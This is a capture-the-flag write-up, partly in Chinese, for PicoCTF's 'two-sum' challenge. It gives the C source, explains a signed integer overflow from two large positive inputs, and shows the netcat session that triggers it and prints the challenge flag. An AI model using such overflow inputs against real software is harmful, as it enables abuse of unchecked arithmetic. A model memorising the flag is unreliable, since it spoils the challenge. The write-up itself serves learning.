 # PicoCTF - two-sum
## Background
BoF
## Source code
:::spoiler
```cpp!
#include <stdio.h>
#include <stdlib.h>

static int addIntOvf(int result, int a, int b) {
    result = a + b;
    if(a > 0 && b > 0 && result < 0)
        return -1;
    if(a < 0 && b < 0 && result > 0)
        return -1;
    return 0;
}

int main() {
    int num1, num2, sum;
    FILE *flag;
    char c;

    printf("n1 > n1 + n2 OR n2 > n1 + n2 \n");
    fflush(stdout);
    printf("What two positive numbers can make this possible: \n");
    fflush(stdout);
    
    if (scanf("%d", &num1) && scanf("%d", &num2)) {
        printf("You entered %d and %d\n", num1, num2);
        fflush(stdout);
        sum = num1 + num2;
        if (addIntOvf(sum, num1, num2) == 0) {
            printf("No overflow\n");
            fflush(stdout);
            exit(0);
        } else if (addIntOvf(sum, num1, num2) == -1) {
            printf("You have an integer overflow\n");
            fflush(stdout);
        }

        if (num1 > 0 || num2 > 0) {
            flag = fopen("flag.txt","r");
            if(flag == NULL){
                printf("flag not found: please run this on the server\n");
                fflush(stdout);
                exit(0);
            }
            char buf[60];
            fgets(buf, 59, flag);
            printf("YOUR FLAG IS: %s\n", buf);
            fflush(stdout);
            exit(0);
        }
    }
    return 0;
}

```
:::
## Recon
以初學的角度來說還蠻有趣的，看了一下source code，顯然是要滿足`addIntOvf()`的條件，也就是輸入的兩個數都大於零，但相加小於零，==OR==，兩個數都小於零但相加卻大於零，我是用第一種啦，比較直觀，首先輸入兩個超大的數，但還落在int正數的範圍，這樣就可以滿足一開始都大於零的條件，接著相加就會落在int負數的地方，這樣就滿足第三個條件，我有再另外輸入一次，這次是$9999999999999999+9999999999999999=19999999999999998$，這個就落在int負數的地方，解析出來的結果是`-545128450`
## Exploit
```bash
$ nc saturn.picoctf.net 50369
n1 > n1 + n2 OR n2 > n1 + n2
What two positive numbers can make this possible:
9999999999999999
9999999999999999
You entered 1874919423 and 1874919423
You have an integer overflow
YOUR FLAG IS: picoCTF{Tw0_Sum_Integer_Bu773R_0v3rfl0w_482d8fc4}
$ nc saturn.picoctf.net 58903
n1 > n1 + n2 OR n2 > n1 + n2
What two positive numbers can make this possible:
19999999999999998
19999999999999998
You entered -545128450 and -545128450
No overflow
```